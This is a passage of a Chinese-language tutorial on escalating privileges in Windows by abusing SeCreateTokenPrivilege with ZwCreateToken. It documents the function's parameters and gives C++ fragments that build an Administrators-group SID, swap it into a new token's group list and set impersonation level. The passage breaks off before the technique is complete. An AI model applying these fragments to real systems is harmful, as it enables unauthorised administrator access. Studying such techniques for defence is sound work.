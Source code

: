 - TokenHandle：用于接收创建的访问令牌的句柄。
- DesiredAccess：访问令牌的所需访问权限，使用 `TOKEN_ALL_ACCESS` 可以获得所有权限。
- ObjectAttributes：指向 `OBJECT_ATTRIBUTES` 结构的指针，用于指定令牌对象的属性。
- Type：指定要创建的令牌的类型，如  TokenPrimary 或 TokenImpersonation。
- AuthenticationId：指定令牌的身份验证标识。
- ExpirationTime：指定令牌的过期时间，或使用 `NULL` 表示不设置过期时间。
- User：指向 `TOKEN_USER` 结构的指针，用于指定令牌所属的用户。
- Groups：指向 `TOKEN_GROUPS` 结构的指针，用于指定令牌所属的组。
- Privileges：指向 `TOKEN_PRIVILEGES` 结构的指针，用于指定令牌的特权。
- Owner：指向 `TOKEN_OWNER` 结构的指针，用于指定令牌的所有者。
- PrimaryGroup：指向 `TOKEN_PRIMARY_GROUP` 结构的指针，用于指定令牌的主组。
- DefaultDacl：指向 `TOKEN_DEFAULT_DACL` 结构的指针，用于指定令牌的默认 DACL。
- Source：指向 `TOKEN_SOURCE` 结构的指针，用于指定令牌的源标识。

如果我们接管了拥有 SeCreateTokenPrivilege 特权的账户或进程，就可以通过 `ZwCreateToken()` 函数制作一个新的模拟令牌并添加特权组的 SID，实现特权提升。

如前所述，我们希望在令牌上启用本地管理员组。为此，我们使用本地管理员组的 RID 构建一个 SID：

```c++
// S-1-5-32-544
SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32,                                                DOMAIN_ALIAS_RID_ADMINS } };
```

然后我们遍历令牌的组并将其从当前用户提升为管理员：

```c++
for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
{
	pSid = (PISID)pTokenGroups->Groups[i].Sid;
  	if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
  	{
    	memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
    	pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
    	wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
  	}
}
```

最后的更改是确保我们正在构建 TokenImpersonation 模拟级别的令牌，这可以在令牌的对象属性中设置：

```c++
SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService),
                                                         SecurityImpersonation, 
                                                         SECURITY_STATIC_TRACKING, FALSE };
OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
```

目前只剩下最后一个难题，就是我们将如何使用生成的模拟令牌，因为我们假设我们只拥有 SeCreateTokenPrivilege 特权，没有其他与模拟相关的特权（例如 SeImpersonatePrivilege）。我们回顾 Windows 有关令牌模拟的相关规则：

> - IF the token level < Impersonate THEN allow (such tokens are called “Identification” level and can not be used for privileged actions).  
> - IF the process has “Impersonate” privilege THEN allow.  
> - IF the process integrity level >= the token integrity level AND the process user == token user THEN allow ELSE restrict the token to “Identification” level (no privileged actions possible).
